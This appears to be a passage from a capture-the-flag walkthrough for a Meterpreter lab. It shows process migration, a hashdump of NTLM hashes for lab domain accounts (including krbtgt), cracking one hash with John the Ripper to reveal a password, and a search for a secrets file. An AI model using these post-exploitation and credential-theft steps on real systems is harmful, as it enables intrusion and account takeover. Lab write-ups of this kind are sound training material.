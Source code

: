 ```
 2972  2416  ssm-agent-worker.exe                       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\ssm-agent-worker.exe
 2980  2972  conhost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3708  756   msdtc.exe                                  x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 4060  2688  conhost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe

meterpreter > getpid
Current pid: 2688
meterpreter > migrate 2256
[*] Migrating from 2688 to 2256...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:cad1611a69ea0142dfd6ee121338244a:::
meterpreter >
Answer : 69596c7aa1e8daee17f8e78870e25a5c

What is the cleartext password of the jchambers user?

We can use several tools to have the cleartext password of the NTLM hash. You can use online tools like crackstation or command line tools like John The Ripper or Hashcat.

Crasktation :


John The Ripper

root@ip-10-10-196-135:~/Desktop/msmeterpreter# cat hash2.txt 
69596c7aa1e8daee17f8e78870e25a5c
root@ip-10-10-196-135:~/Desktop/msmeterpreter# john --format=NT --rules -w=/usr/share/wordlists/rockyou.txt hash2.txtUsing default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Trustno1         (?)
1g 0:00:00:01 DONE (2021-09-26 13:58) 0.9090g/s 46778p/s 46778c/s 46778C/s blackrose1..2pac4ever
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
Answer : Trustno1

Where is the "secrets.txt"  file located?

meterpreter > search -f "secret*"
Found 2 results...
    c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt (35 bytes)
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\secrets.txt.lnk (1045 bytes)
meterpreter >
Answer : c:\Program Files (x86)\Windows Multimedia Platform

What is the Twitter password revealed in the "secrets.txt" file?

Going to the location then print the file content :

```